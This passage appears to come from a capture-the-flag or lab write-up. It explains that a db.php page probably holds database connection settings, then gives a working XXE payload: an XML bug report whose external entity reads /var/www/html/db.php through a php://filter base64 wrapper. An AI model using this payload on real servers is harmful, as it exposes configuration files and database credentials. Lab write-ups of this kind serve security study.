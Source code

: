 ![](./IMG/19.png)

> it seems the page is empty , but the request is 200 ok , so I think it doesn't include the static part in this file, maybe it just use to configure the db connection 
> so we use XXE attack to read this file. 

![](./IMG/20.png)

```
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE replace [<!ENTITY example SYSTEM "php://filter/convert.base64-encode/resource=/var/www/html/db.php"> ]>
		<bugreport>
		<title>test</title>
		<cwe>test</cwe>
		<cvss>test</cvss>
		<reward>&example;</reward>
		</bugreport>
        
```
